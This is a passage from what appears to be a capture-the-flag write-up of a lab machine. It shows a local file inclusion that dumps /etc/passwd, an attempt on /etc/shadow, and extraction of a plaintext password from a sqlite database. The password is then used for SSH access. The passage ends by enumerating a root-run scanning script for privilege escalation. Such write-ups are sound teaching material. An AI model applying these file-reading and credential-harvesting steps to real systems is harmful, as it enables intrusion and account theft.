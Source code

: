     systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false

Now that we know it works, we can try to read other system files. Note that this is called a Local File Inclusion (LFI) exploit, because local files are being included when the is processed. I tried to access the `/etc/shadow` file which stores all the password hashes, but the server does not have root access to read them.

Upon re-looking the `login.php` source code, there is a call to the `sqlite` database in `/var/db/pilgrimage` which was used for user authentication. We can try to get the data from this file instead.

Repeating the exploit for `/var/db/pilgrimage`, we get the following string:

    ��e��8|�StableimagesimagesCREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL)+?indexsqlite_autoindex_images_1imagesf�+tableusersusersCREATE TABLE users (use��-emilyabigchonkyboi123OT NULL, password TEXT NOT NULL))=indexsqlite_autoindex_users_1users
    ��      emily
    4

So user `emily` has password `abigchonkyboi123`.

We can `ssh` into `emily` and get the user.txt = 2ce93a8ecd9d9e87bd272d32df0b696

### Privilege Escalation

`emily` does not have sudo root privilege so we need another way to get root.

The next step is to check what are the processes running and see if any of them are running as root.

    ps -aux

While there are many system binaries running as root, we have a specific function `malwarescan.sh` that is a custom script! Taking a look inside...

    cat malwarescan.sh

    >>

    #!/bin/bash

    blacklist=("Executable script" "Microsoft executable")

    /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
            for banned in "${blacklist[@]}"; do
            if [[ "$binout" == *"$banned"* ]]; then
                /usr/bin/rm "$filename"
                break
            fi
        done
    done
